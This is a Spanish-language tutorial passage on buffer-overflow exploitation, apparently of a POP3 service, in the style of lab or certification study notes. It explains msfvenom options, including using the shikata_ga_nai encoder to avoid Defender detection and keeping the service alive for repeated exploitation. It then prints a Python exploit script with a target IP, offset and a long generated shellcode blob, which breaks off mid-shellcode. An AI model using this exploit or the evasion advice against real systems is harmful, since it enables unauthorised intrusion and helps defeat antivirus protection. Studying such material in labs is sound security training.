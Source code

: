 - ``EXITFUNC=thread`` se utiliza ya que cuando nosotros ejecutamos el Buffer Overflow y logramos ganar acceso a la máquina, es muy probable que cuando salgamos de la consola interactiva **el servicio Crashee** y ya no esté funcional, por lo tanto con esto **creamos un proceso hijo que cuelga de un proceso padre** (principal) para que lo que mate sea al hijo y no el padre que es el más importante. Esto lo utilizamos para que **cuando salgamos el servicio siga estando operativo y podamos volver a explotarlo** para ganar acceso al sistema nuevamente.

Nosotros utilizaremos un **Encoder polimórfico** llamado ``x86/shikata_ga_nai``, también se podría aplicar **Multipolimorfismo** que se realiza empleando múltiples Encoders para **evitar que el Defender te detecte**.

==DATO IMPORTANTE== si estamos en un escenario en el que **detectamos que la aplicación posee muchos Badchars** (más de diez), se recomienda no indicar el **Encoder** ``shikata_ga_nae`` ya que a veces **no podrá generarte el Shellcode correctamente**, es preferible **no indicar** ningún Encoder y que el ``msfvenom`` decida cual es el más óptimo.

Adicional a los parámetros anteriores tenemos los siguientes.

- ``msfvenom -l encoders`` se utiliza para ver todos los **Encoders**.
- ``msfvenom -l payloads`` se utiliza para ver todos los **Payloads**. En función de lo que queramos hacer tendremos que usar uno especifico. Los que dicen ``/meterpreter/`` son únicamente para ser utilizados con el **listener** de Metasploit.

![[BOF 21.png]]

Estas instrucciones en Hexadecimal, es decir el **Shellcode**, lo meteremos dentro de nuestro script en una variable ``shellcode`` además de sumar esa variable a la variable ``payload``, reemplazando el lugar de la variable ``esp``.

```python
#!/usr/bin/python3

import socket
import sys

# Variables globales. 
ip_address = "192.168.0.120"
port = 110
offset = 4654

before_eip = b"A"*offset
eip = b"B"*4

shellcode = (b"\xdd\xc6\xbd\xb7\x06\x6c\xcb\xd9\x74\x24\xf4\x58\x2b\xc9"
b"\xb1\x52\x31\x68\x17\x83\xe8\xfc\x03\xdf\x15\x8e\x3e\xe3"
b"\xf2\xcc\xc1\x1b\x03\xb1\x48\xfe\x32\xf1\x2f\x8b\x65\xc1"
b"\x24\xd9\x89\xaa\x69\xc9\x1a\xde\xa5\xfe\xab\x55\x90\x31"
b"\x2b\xc5\xe0\x50\xaf\x14\x35\xb2\x8e\xd6\x48\xb3\xd7\x0b"
b"\xa0\xe1\x80\x40\x17\x15\xa4\x1d\xa4\x9e\xf6\xb0\xac\x43"
b"\x4e\xb2\x9d\xd2\xc4\xed\x3d\xd5\x09\x86\x77\xcd\x4e\xa3"
b"\xce\x66\xa4\x5f\xd1\xae\xf4\xa0\x7e\x8f\x38\x53\x7e\xc8"
b"\xff\x8c\xf5\x20\xfc\x31\x0e\xf7\x7e\xee\x9b\xe3\xd9\x65"
b"\x3b\xcf\xd8\xaa\xda\x84\xd7\x07\xa8\xc2\xfb\x96\x7d\x79"
b"\x07\x12\x80\xad\x81\x60\xa7\x69\xc9\x33\xc6\x28\xb7\x92"
b"\xf7\x2a\x18\x4a\x52\x21\xb5\x9f\xef\x68\xd2\x6c\xc2\x92"
b"\x22\xfb\x55\xe1\x10\xa4\xcd\x6d\x19\x2d\xc8\x6a\x5e\x04"
b"\xac\xe4\xa1\xa7\xcd\x2d\x66\xf3\x9d\x45\x4f\x7c\x76\x95"
b"\x70\xa9\xd9\xc5\xde\x02\x9a\xb5\x9e\xf2\x72\xdf\x10\x2c"
b"\x62\xe0\xfa\x45\x09\x1b\x6d\xaa\x66\x23\xaf\x42\x75\x23"
b"\x2e\x28\xf0\xc5\x5a\x5e\x55\x5e\xf3\xc7\xfc\x14\x62\x07"
b"\x2b\x51\xa4\x83\xd8\xa6\x6b\x64\x94\xb4\x1c\x84\xe3\xe6"
b"\x8b\x9b\xd9\x8e\x50\x09\x86\x4e\x1e\x32\x11\x19\x77\x84"
b"\x68\xcf\x65\xbf\xc2\xed\x77\x59\x2c\xb5\xa3\x9a\xb3\x34"
b"\x21\xa6\x97\x26\xff\x27\x9c\x12\xaf\x71\x4a\xcc\x09\x28"
b"\x3c\xa6\xc3\x87\x96\x2e\x95\xeb\x28\x28\x9a\x21\xdf\xd4"
b"\x2b\x9c\xa6\xeb\x84\x48\x2f\x94\xf8\xe8\xd0\x4f\xb9\x09"
```